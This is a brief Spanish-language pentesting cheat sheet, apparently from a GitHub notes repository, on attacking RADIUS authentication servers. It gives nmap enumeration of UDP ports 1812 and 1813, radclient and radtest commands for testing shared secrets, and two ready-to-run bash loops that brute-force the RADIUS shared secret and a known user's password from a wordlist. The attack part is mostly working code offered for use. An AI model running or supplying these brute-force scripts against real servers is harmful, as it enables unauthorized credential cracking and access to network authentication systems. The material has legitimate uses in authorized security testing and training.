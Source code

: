 # RADIUS

## Enumeración
### Service recon
```bash
nmap -sU IP -p 1812,1813
```
## Interación con el servicio
### Test secrets
```bash
echo "Message-Authenticator = 0x00" | radclient IP:1812 auth SecretToTest
```
### Test pass
```bash
radtest user pass IP 10 Secret
```
## Ataque por fuerza bruta
### Secret 
```bash
#! /bin/bash
while read password; do
    radtest knowuser knowpass IP 10 $password > /dev/null
    if [ "$?" = "0" ]; then
        echo "Correct RADIUS secret: $password "
        break
    else
        continue
    fi
done < $1
```
### Password 
```bash
#! /bin/bash
while read password; do
    radtest knowuser $password IP 10 knownsecret > /dev/null
    if [ "$?" = "0" ]; then
		    echo "Correct users password: $password "
		    break
	  else
		    continue
	  fi
done < $1
```
